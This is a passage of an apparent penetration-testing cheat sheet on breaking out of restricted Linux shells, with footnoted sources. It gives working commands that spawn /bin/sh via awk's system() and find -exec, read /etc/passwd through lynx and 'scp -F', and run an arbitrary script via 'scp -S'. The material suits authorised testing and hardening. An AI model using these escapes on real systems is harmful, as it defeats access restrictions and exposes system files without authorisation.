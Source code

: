 ### Mail

`$VISUAL` sets the program to invoke
when the visual editor is called.

```sh
set VISUAL=/bin/vi
mail -s "subject" user@mail.com
```
Start the visual editor with `~v` and [escape VIM](#vim).

### Lynx[^lynx-doc]

```sh
lynx /etc/passwd
```

Enter the options with `o`,
change the `Editor` to `/bin/vi`.
Edit the file with `e`
and [escape VIM](#vim)

### Elinks

Set `EDITOR` to `/bin/vi`.
Open a webpage
and edit a textbox.
[Escape VIM](#vim)

### AWK

```sh
awk 'BEGIN {system("/bin/sh")}'
```

### Find

```sh
find / -name 0xffsec -exec /bin/awk 'BEGIN {system("/bin/sh")}' \;
```

### SCP [^scp-pentestmonkey]

Read files with `-F`

```sh
scp -F /etc/passwd validfile remote:
```

Run commands with `-S`.

```sh
echo $'#!/bin/sh\n/usr/bin/id' > script.sh
chmod +x script.sh
scp -S ./script validfile remote:
```


[^scp-pentestmonkey]: “Breaking out of Rbash Using Scp.” Pentestmonkey | Taking the Monkey Work out of Pentesting, http://pentestmonkey.net/blog/rbash-scp.
[^0-nixcraft]: “$0 - Linux Shell Scripting Tutorial - A Beginner’s Handbook.” NixCraft – Bash Shell Scripting Directory, https://bash.cyberciti.biz/guide/$0.
[^sans-restricted-shells]: Wright, Joshua. “SANS Penetration Testing | Escaping Restricted Linux Shells.” SANS Institute.
[^lynx-doc]: “Lynx Users Guide.” LYNX – The Text Web-Browser, https://lynx.invisible-island.net/lynx_help/Lynx_users_guide.html#LocalSource.
[^tcpdump]: “How to Break out of Restricted Shells with Tcpdump.” Insinuator.Net, https://insinuator.net/2019/07/how-to-break-out-of-restricted-shells-with-tcpdump/.